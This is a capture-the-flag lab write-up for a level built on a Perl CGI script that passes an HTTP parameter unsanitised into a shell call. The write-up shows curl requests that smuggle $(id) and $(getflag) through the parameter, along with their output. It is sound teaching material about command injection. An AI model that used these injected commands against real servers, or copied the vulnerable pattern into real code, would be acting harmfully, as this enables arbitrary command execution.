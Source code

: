 # Level 04

## Initial Context

- A single perl file: `level04.pl`

## Solving the Challenge

### Analyzing

The file contains:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI file that is being executed when someone does a HTTP request to `localhost:4747`.

Looking at the code, we can see that it expects a `x` parameter and simply returns the value of `x`. 

```bash
$ curl http://localhost:4747?x=hello+world
hello world
```

:warning: This script is dangerous since it executes the `echo` command without any sanitization.

### Exploiting

Let's use a sub-shell to execute any command we want.

By using `x = $(<command>)`, we can execute arbitrary commands on the server side with the privileges of the server.

Using the `id` command, we can see which user has started the server.

```bash
$ curl localhost:4747?x=\$\(id\)
uid=3004(flag04) gid=2004(level04) groups=3004(flag04),1001(flag),2004(level04)
```

Using the `getflag` command, we can get the flag.

```bash
$ curl localhost:4747?x=\$\(getflag\)
Check flag.Here is your token : ....
```

Its the same as the previous level. We do not have a flag, but the password to go to the next level directly.